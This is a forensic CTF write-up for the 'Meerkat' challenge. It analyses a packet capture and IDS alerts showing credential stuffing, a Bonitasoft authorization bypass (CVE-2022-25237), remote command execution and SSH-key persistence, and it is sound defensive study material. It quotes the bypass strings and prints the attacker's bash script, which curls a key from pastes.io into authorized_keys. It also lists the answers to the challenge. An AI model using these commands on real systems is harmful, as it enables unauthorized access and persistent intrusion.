# **Meerkat Writeup**

{style="height:300px;width:300px"}

## **Scenario**
???+ info "Background"

    *You are brought in as the new security provider for Forela, a fast-growing startup. The startup has been using a business management platform, but with insufficient documentation and potentially lax security practices. You are provided with PCAP and log data and are tasked with determining if a compromise has occurred. This scenario pushes the you to employ your analysis skills, effectively sifting through network data and logs to detect potential signs of intrusion, thereby offering a realistic taste of the pivotal role cybersecurity plays in the protection of burgeoning businesses.*


    *As a fast growing startup, Forela have been utilising a business management platform. Unfortunately our documentation is scarce and our administrators aren't the most security aware. As our new security provider we'd like you to take a look at some PCAP and log data we have exported to confirm if we have (or have not) been compromised.*

## **Tasks**

## **Setup**
Initially we are provided a `meerkat.zip` zip archive. After extracting the archive we are left with two files.
``` console
$ unzip meerkat.zip
Archive:  meerkat.zip
[meerkat.zip] meerkat.pcap password: hacktheblue
inflating: meerkat.pcap
inflating: meerkat-alerts.json

$ ls
meerkat-alerts.json
meerkat.pcap
meerkat.zip
```

The meerkcat.pcap contains a partial network capture of the incident.  
The meerkat-alerts.json contains security alerts.
## **Task 1**
*We believe our Business Management Platform server has been compromised. Please can you confirm the name of the application running?*

---

By opening the `meerkat.pcap` file with `wireshark` we are able to browse the captured network traffic.

We can assume it's a web application and as such we can filter out any non HTTP traffic.


*1* Right click any item under the protocol column.  
*2* Select Apply as filter -> Selected.  

Lastly we need to change the protocol we want to filter for, in this case HTTP.




`_ws.col.protocol == "NTP"` -> `_ws.col.protocol == "HTTP"`

After reviewing the remaining entries `bonita` seems to be the application we are looking for. After searching for "`bonita application`" on Kagi we can see that the full name of the application is `bonitasoft`.


Answer: **Bonitasoft**

## **Task 2**
*We believe the attacker may have used a subset of the brute forcing attack category - what is the name of the attack carried out?*

---
When browsing the entries, we see alot of requests torwards the `/bonita/loginservice` endpoint. These requests are then followed by a `401 Unauthorized` response from the server indicating that the used credentials are wrong.


By selecting some of the requests sent to the `/bonita/loginservice` and expanding the `HTML Form` we can see that there seems to be some kind of credential bruteforce. Also known as Credential Stuffing.



Answer: **Credential Stuffing**

## **Task 3**
*Does the vulnerability exploited have a CVE assigned - and if so, which one?*

---
#### With json
After following the failed login attempts we soon find a successfull login, immedieatly afterwards there seems to be something uploaded to the server.



After expanding the contents of the request the file uploaded is called `rce_api_extension.zip`. Searching for "`Bonitasoft rce_api_extension.zip`" on Kagi reveals that it's tied to the CVE-2022-25237 vulnerability.



----
#### With json
We could also find out what CVE was used by parsing the `meerkat-alerts.json`.

The json file can be parsed with the command below:
``` console
$ cat meerkat-alerts.json|jq

```
Since we are looking for a CVE we can append `|grep -i "cve"`.

``` console
$ cat meerkat-alerts.json|jq|grep -i "cve"
"signature": "ET EXPLOIT Bonitasoft Authorization Bypass M1 (CVE-2022-25237)",
"cve": [
"CVE_2022_25237"
"signature": "ET EXPLOIT Bonitasoft Authorization Bypass M1 (CVE-2022-25237)",
"cve": [
"CVE_2022_25237"
"signature": "ET EXPLOIT Bonitasoft Authorization Bypass and RCE Upload M1 (CVE-2022-25237)",
"cve": [
"CVE_2022_25237"
"signature": "ET EXPLOIT Bonitasoft Authorization Bypass M1 (CVE-2022-25237)",
...

```
??? info "command explanation"
    | **Command** | **Description** |
    | --- | ----------- |
    | **Cat** | Prints the file. |
    | **\|** | Sends the output to the next command. |
    | **jq** | json parser to increase readability. |
    | **grep -i "cve"** | Grep searches for strings, -i makes it case insensitve, "cve" is the word we are searching for. |

This also shows us indications that CVE-2022-25237 has been used.

Answer: **CVE-2022-25237**

## **Task 4**
*Which string was appended to the API URL path to bypass the authorization filter by the attacker's exploit?*

---
After reading more about the CVE by searching after `cve-2022-25237 poc` on Kagi we find a poc that explains the following:

```
By appending ";i18ntranslation" or "/i18ntranslation/../" to certain API URLs it is 
possible to bypass authorization for unprivilged users and access privileged APIs. 
This allows an API extension to be deployed and execute code remotely.
```
This is the link I found the information on:  
<https://github.com/RhinoSecurityLabs/CVEs/tree/master/CVE-2022-25237>

Answer: **i18ntranslation**

## **Task 5**
*How many combinations of usernames and passwords were used in the credential stuffing attack?*

---
By filtering the pcap file as done in step 1 for login requests we can see all relevant requests. However since we dont want to count all requests with unique credentials we need to dig a little deeper. First we need to extract the name of the username fiter. Then we are gonna move over to Tshark which is the CLI version of wireshark and do some oneliner magic.



By selecting either of the requests and browsing to HTML Form -> Form item username and right clicking the vaule and Apply it as filter. We can see that the filter is called `urlencoded-form.value`.

Now we can move on to our terminal of choice to use tshark and use the following command to print out all the lines of uniqe credentials used. Dont worry if the oneliner is hard to understand, there is an breakdown below if needed.

``` bash
$ tshark -r meerkat.pcap -Y 'http' -T fields -e 'urlencoded-form.value'|sort -u | awk NF|sed 's/,en$//'|wc -l
57
```

??? info "Oneliner breakdown"
    | Command      | Description |
    | ----------- | ----------- |
    | tshark      | CLI version of Wireshark       |
    | tshark -r <file\>  | pcap file to read from         |
    | tshark -Y   | Protocol to filter for, in this case HTTP        |
    | tshark -T   | Print the output as fields, this is needed for the -e flag to work        |
    | tshark -e   | filter for the "urlencoded-form.value"       |
    | sort -u   | Only print unique lines        |
    | awk NF   | Removes blank lines        |
    | sed 's/,en$//'   | Removes ",en" from the output(This command is not needed for the end result but cleans up the credentials if we would like to examine them further)        |
    | wc -l   | counts all lines        |
    | Note   | You can remove "\|wc -l" to see all credentials used in the attack        |

However 57 is not the correct answer, instead it's 56. That is because the `install:install` credentials are default credentials provided by the PoC and are thus not part of the credentials stuffing wordlist.
    
Answer: **56**

## **Task 6**
*Which username and password combination was successful?*

---

By going back to wireshark we can filter away all the 401 Unauthorized and search for a login request followed by any of the 200 responses.


After scrolling a while we can see a 204 response after one of the login attempts indicating that it succeeded. By then browsing to request above it we can see the credentials used for the login.



Answer: **seb.broom@forela.co.uk:g0vernm3nt**

## **Task 7**
*If any, which text sharing site did the attacker utilise?*

---
Just underneath the first successfull login we can see that the attacker uses the `&cmd=` parameter to issue commands to the server.
We can filter for requests including the `&cmd=` parameter to see all commands ran with this technique.


To show all entries with the `&cmd=` parameter we need to change the filter from

``` wireshark
((_ws.col.protocol == "HTTP")) && (_ws.col.info == "GET /bonita/API/extension/rce?p=0&c=1&cmd=whoami HTTP/1.1 ")
```
to 
```
((_ws.col.protocol == "HTTP")) && (_ws.col.info contains "&cmd=")
```
Now we filter for any urls containing `&cmd=`.



We can then see that the attacker used wget to fetch the file `bx5qcr0et8` from https://pastes.io


Answer: **pastes.io**

## **Task 8**
*Please provide the filename of the public key used by the attacker to gain persistence on our host.*

---
By browsing to the url that the attacker fetched with wget we can see the contents of the file.

```bash
#!/bin/bash
curl https://pastes.io/raw/hffgra4unv >> /home/ubuntu/.ssh/authorized_keys
sudo service ssh restart
```

We can then see that the bash script fetches another file `hffgra4unv` from the same site, this time with curl.

If we browse to the new url we can see a public ssh key which makes sense since it is put into the ./ssh/authorized_keys file which gives the attacker ssh persistence.

Answer: **hffgra4unv**
## **Task 9**
*Can you confirmed the file modified by the attacker to gain persistence?*

---
We can see that the attacker executes the first downloaded file `bx5qcr0et8` which do modify the authorized_keys when it adds the attackers public ssh key into it.


Answer: **/home/ubuntu/.ssh/authorized_keys**

## **Task 10**
*Can you confirm the MITRE technique ID of this type of persistence mechanism?*

---
Searching Kagi for "Mitre techinque ID ssh persistence" gave me the following link
<https://attack.mitre.org/techniques/T1098/004/>

This link also provides the ID as T1098.004 


Answer: **T1098.004**

## Final Thoughts

Meerkat was a fun and educational introduction sherlock helping users to become more familiar with Wireshark and Tshark.

If have any questions or have spotted any misstakes please contact me on my mail blog@hurtigare.com.